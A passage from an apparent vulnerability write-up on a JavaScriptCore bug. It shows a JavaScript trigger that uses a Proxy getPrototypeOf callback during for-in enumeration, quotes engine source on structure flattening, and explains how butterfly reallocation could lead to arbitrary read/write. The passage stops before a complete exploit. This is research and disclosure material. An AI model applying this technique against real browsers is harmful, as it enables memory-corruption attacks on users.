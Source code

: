 ## The Exploit

**Is the exploit method known?** No

**Exploit method**:

First, we have to setup a ProxyObject with `getPrototypeOf` callback and put it into prototype chain. This will pop-up alert window as expected.

```javascript
function foo(o) {
    for (let p in o) {
        return o[p];
    }
}

var obj2 = {};
var proxy = new Proxy({}, {
    getPrototypeOf: function(target) {
        alert("Callback called");
        return null;
    }
});
obj2.__proto__ = proxy;
foo(obj2);
```

Now how can we gain read/write arbitrary using this callback? Look into function `propertyNameEnumerator` again. We see that before creating the `JSPropertyNameEnumerator` object, JSC does a special task: flatten all structures existing in the prototype chain. It turns out that JSC re-orders all properties and values in case we have deleted some of them in our callback, which means JSC also re-allocates butterfly storage for memory optimisation:

```cpp
Structure* Structure::flattenDictionaryStructure(VM& vm, JSObject* object)
{
    ...
    size_t beforeOutOfLineCapacity = this->outOfLineCapacity();
    if (isUncacheableDictionary()) {
        PropertyTable* table = propertyTableOrNull();
        ASSERT(table);
        size_t propertyCount = table->size();
        Vector<JSValue> values(propertyCount);
        unsigned i = 0;
        PropertyTable::iterator end = table->end();
        auto offset = invalidOffset;
        for (PropertyTable::iterator iter = table->begin(); iter != end; ++iter, ++i) {
            values[i] = object->getDirect(iter->offset);
            offset = iter->offset = offsetForPropertyNumber(i, m_inlineCapacity);
        }
        setMaxOffset(vm, offset);
        ASSERT(transitionOffset() == invalidOffset);
        for (unsigned i = 0; i < propertyCount; i++)
            object->putDirect(vm, offsetForPropertyNumber(i, m_inlineCapacity), values[i]);
        ...
    }
    ...
    size_t afterOutOfLineCapacity = this->outOfLineCapacity();

    if (object->butterfly() && beforeOutOfLineCapacity != afterOutOfLineCapacity) {
        ASSERT(beforeOutOfLineCapacity > afterOutOfLineCapacity);
        if (!afterOutOfLineCapacity && !this->hasIndexingHeader(object))
            object->setButterfly(vm, nullptr);
        else
            object->shiftButterflyAfterFlattening(locker, vm, this, afterOutOfLineCapacity);
    }
```